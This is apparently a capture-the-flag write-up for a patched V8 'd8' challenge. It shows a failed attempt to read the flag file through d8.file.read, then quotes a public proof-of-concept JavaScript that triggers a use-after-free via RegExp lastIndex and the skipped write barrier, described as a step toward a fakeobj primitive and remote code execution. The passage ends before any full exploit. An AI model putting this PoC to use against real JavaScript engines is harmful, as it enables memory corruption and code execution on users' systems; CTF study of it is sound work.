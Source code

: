 # osu-v8

## initial exploration

Challenge provides a d8 binary, a patch, and tells us that the build was based on commit `8cf17a14a78cc1276eb42e1b4bb699f705675530`.
```diff path="dist/patch.diff" open
```

The patch removes some io functions, and changes a flag from `UPDATE_WRITE_BARRIER` to `SKIP_WRITE_BARRIER` in some regex handling code. Patching out the io functions is probably just to stop cheeses, and the actual vulnerability involves the regex code. But I'm lazy so we'll try to cheese the challenge first.

## possible cheese

Running the `d8` binary and executing
```js open
d8> Object.keys(this)
["version", "setTimeout", "quit", "testRunner", "Realm", "performance", "Worker", "os", "d8", "arguments"]
```
prints out some interesting looking entries, namely `os` and `d8`
```js open
d8> os
{chdir: function chdir() { [native code] }, setenv: function setenv() { [native code] }, unsetenv: function unsetenv() { [native code] }, umask: function umask() { [native code] }, mkdirp: function mkdirp() { [native code] }, rmdir: function rmdir() { [native code] }, name: "linux", d8Path: "./d8"}
```
`os` has some file manipulation functions, but nothing to read files...
```js open
d8> d8     
{file: {read: function read() { [native code] }, execute: function execute() { [native code] }}, log: {getAndStop: function getAndStop() { [native code] }}, dom: {EventTarget: function EventTarget() { [native code] }, Div: function Div() { [native code] }}, test: {verifySourcePositions: function verifySourcePositions() { [native code] }, installConditionalFeatures: function installConditionalFeatures() { [native code] }}, promise: {setHooks: function setHooks() { [native code] }}, debugger: {enable: function enable() { [native code] }, disable: function disable() { [native code] }}, serializer: {serialize: function serialize() { [native code] }, deserialize: function deserialize() { [native code] }}, profiler: {setOnProfileEndListener: function setOnProfileEndListener() { [native code] }, triggerSample: function triggerSample() { [native code] }}, terminate: function terminate() { [native code] }, quit: function quit() { [native code] }}
```
but `d8` has a `file.read()` function! Did the challenge authors somehow miss a easy cheese? Surely not...

Testing to see if `file.read()` can leak the flag on remote:
```text open
script size:
48
script:
throw new Error(d8.file.read("/home/ctf/flag"))
/home/ctf/tmp.IJFY3DhIGb.js:1: Error: Error loading file: /home/ctf/flag
throw new Error(d8.file.read("/home/ctf/flag"))
                        ^
Error: Error loading file: /home/ctf/flag
    at /home/ctf/tmp.IJFY3DhIGb.js:1:25
```
didnt work :(. Taking a look at the dockerfile shows that the chall authors make `flag` readonly by root, and give the `getflag` binary root and suid permissions. Looks like we actually need to perform the intended exploit and get rce on remote.

## back on track

A little bit of searching yields [https://issues.chromium.org/issues/40059133](https://issues.chromium.org/issues/40059133), an issue that exploits the exact bug that the patch introduces. The thread includes a poc for uaf on the v8 heap, as well a full exploit.

```js filename="poc.js" open
var re = new RegExp('foo', 'g');  
  
var match_object = {};  
match_object[0] = {  
    toString : function() {  
        return "";  
    }  
};  
  
re.exec = function() {  
    gc(); // move `re` to oldspace using a mark-sweep gc  
    delete re.exec; // transition back to initial regexp map to pass HasInitialRegExpMap  
    re.lastIndex = 1073741823; // maximum smi, adding one will result in a HeapNumber  
    RegExp.prototype.exec = function() {  
        throw ''; // break out of Regexp.replace  
    }  
    return match_object;  
};  
  
try {  
    var newstr = re[Symbol.replace]("fooooo", ".$");  
} catch(e) {}  
  
gc({type:'minor'});  
gc({type:'minor'});  
gc({type:'minor'});  
gc({type:'minor'});  
gc({type:'minor'});  
%DebugPrint(re.lastIndex);
```

The poc shows how to create a dangling reference in `re.lastIndex` to a location on the heap, the contents of which can then be overwritten with new data. This basically gives us a `fakeobj` primitive which can be escalated to rce.